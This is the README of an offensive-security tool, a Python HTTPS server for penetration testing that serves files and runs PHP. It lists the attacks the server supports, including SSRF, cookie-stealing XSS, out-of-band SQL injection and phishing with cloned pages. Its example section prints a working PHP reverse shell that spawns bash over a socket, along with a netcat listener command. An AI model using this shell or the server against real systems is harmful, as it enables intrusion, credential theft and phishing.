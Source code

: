 # rogue-https-server.py
Rogue HTTPS Server is a tool that allows you to create a Python 3.10/3.11 HTTPS/SSL server to receive encrypted connections, serve content, and run PHP scripts.

![1-photo](https://github.com/ajacobhack/rogue-https-server/assets/99199970/79a9f034-23a8-4853-bd9e-d4a245464b92)


Rogue HTTPS Server is a powerful and easy-to-use tool that allows you to create an HTTPS/SSL server with TLS in Python 3.10/3.11, primarily intended for ethical hacking tests that require a server with encrypted connections that may be able to connect to applications websites strictly configured for HTTPS traffic. It provides additional options such as assigning a free DNS to the specified IP address, automatic pem certificate creation, static server, and PHP file execution.

### **Characteristics**

- **HTTPS/SSL Server**: Creates a TCP/IP server at the specified IP address and port to listen for HTTPS/SSL connections, including 443.
- **Free DNS Support**: Assign a free subdomain to the IP address using DuckDNS to access your server more conveniently.
- **PHP code execution**: Executes PHP code on the server to perform dynamic and custom actions in your web applications.
- **Static File Management**: Serve static files, such as HTML, CSS, JavaScript, images and more, to display content on your server.

### Vulnerabilities that help identify, check and execute:
- Security configuration errors: destination server connects via https to external servers with self-signed certificates or no dns.
- External Service Interaction (DNS and HTTP): the target server/application can, due to a bad configuration, request external resources, instead of internal ones, through https and previous DNS resolution to any external server, in this case ours .
- Blind SSRF on the target server, which manages to connect via Out-Of-Band to our https server with dns, which could chain execution requests to internal resources.
- RCE PHP: If the target server or application can request resources from our server, it could execute a reverse PHP shell served by our server, achieving remote code execution.
- Stored XSS that when executed exfiltrates and sends cookies via HTTPS connection.
- Out-of-band SQL injection (OOB SQLi): an asynchronous SQL query can cause the server to perform out-of-band interactions with an external domain and server, ours.
- Phishing: HTTPS server with DNS could be used to serve cloned web pages to capture credentials.

## Use

1. Clone the Rogue HTTPS Server repository to your local machine.
    
     ```
     git clone https://github.com/ajacobhack/rogue-https-server.git
     ```
    
2. Navigate to the project directory: `cd rogue-https-server`.
3. Optional: If you want to assign free DNS using DuckDNS, make sure you have a DuckDNS subdomain and token.
4. Run the server using the following command:
    
     ```bash
     python3 rogue-https-server.py -i <IP_ADDRESS> -p <PORT> -s <SUBDOMAIN> -t <DUCKDNS_TOKEN>
     ```
    
     - `<IP_ADDRESS>`: The IP address on which you want the server to listen for incoming connections.
     - `<PORT>`: The port on which you want the server to listen for incoming connections.
     - `<SUBDOMAIN>` (optional): The subdomain you want to assign for free DNS using DuckDNS.
     - `<DUCKDNS_TOKEN>` (optional): The DuckDNS token needed to assign the subdomain.
5. The server will start listening for incoming connections on the specified IP address and port. If a DuckDNS subdomain and token is provided, the free DNS will be assigned using DuckDNS for the specified subdomain.
6. When an HTTP/HTTPS request is received, the server will respond as follows:
- If the request corresponds to an existing PHP file, the PHP code will be executed and the output will be sent to the client.
- If the request corresponds to an existing static file (HTML, CSS, JS, images, etc.), the content of the file will be sent to the client.
- If the request does not correspond to any existing file, a "404 Not Found" error response will be sent to the client.
- 
![2023-06-05 16_50_16-Window](https://github.com/ajacobhack/rogue-https-server/assets/99199970/666c0bad-b23a-4ad6-a119-ac43246620b6)

![2023-06-05 16_51_54-Window](https://github.com/ajacobhack/rogue-https-server/assets/99199970/a37a014d-e92b-4d76-adac-a4d6bb0db105)

![2023-06-05 16_52_31-Window](https://github.com/ajacobhack/rogue-https-server/assets/99199970/e02c0e42-060d-4bfb-920e-9d285b10718b)


## Additional features

- **Automatic generation of PEM files**: If the server does not find the `cert.pem` and `key.pem` files in the working directory, it will automatically generate these files using OpenSSL.
- **Optional Free DNS Configuration**: You can provide a DuckDNS subdomain and token to assign free DNS using DuckDNS. This setting is optional and you can skip it if you don't want to use this functionality.

### **Example of use**

Suppose we want to run PHP code on the server and get an interactive shell connection to the server. Here is an example of how it can be achieved using the server:

1. Run the server at IP address **`127.0.0.1`** and port `443`:
    
     ```bash
     python3 rogue-https-server.py -i 127.0.0.1 -p 443
     ```
    
2. Create a PHP file with the following content and save it as **`shell.php`**:
    
     ```php
     <?php
     $sock = fsockopen("127.0.0.1", 4242); /*CHANGE IP and PORT*/
     $descriptors = array(
         0 => $sock,
         1 => $sock,
         2 => $sock
     );
     $process = proc_open('/bin/bash -i', $descriptors, $pipes);
     ?>
     ```
    
3. Open your web browser and visit **`https://127.0.0.1:443/shell.php`**.
4. In a separate terminal session, start a netcat server to listen on port **`4242`**:
    
     ```bash
     nc -lnvp 4242
     ```
    
5. When you access **`https://127.0.0.1:443/shell.php`** in your browser, the server will execute the PHP code and open a shell connection in the netcat session.

![shell php con exit](https://github.com/ajacobhack/rogue-https-server/assets/99199970/57864150-711f-405e-bc91-fbfbab172a6e)

### **Contribution**

We welcome your contributions to Rogue HTTPS Server! If you encounter any issues, have an idea for improvement, or want to add new features, feel free to open an issue or submit a pull request on the official repository.

### **License**

This project currently does not have an open license.

### **Thanks**

I want to thank the community of developers and contributors who have made this project possible. Your contributions and feedback have been instrumental in improving Rogue HTTPS Server and providing a useful and reliable tool.

### **Legal warning**

Rogue HTTPS Server is a tool designed to be used for development and ethical purposes only. We are not responsible for any misuse of this tool. Make sure to comply with local laws and regulations when using Rogue HTTPS Server.
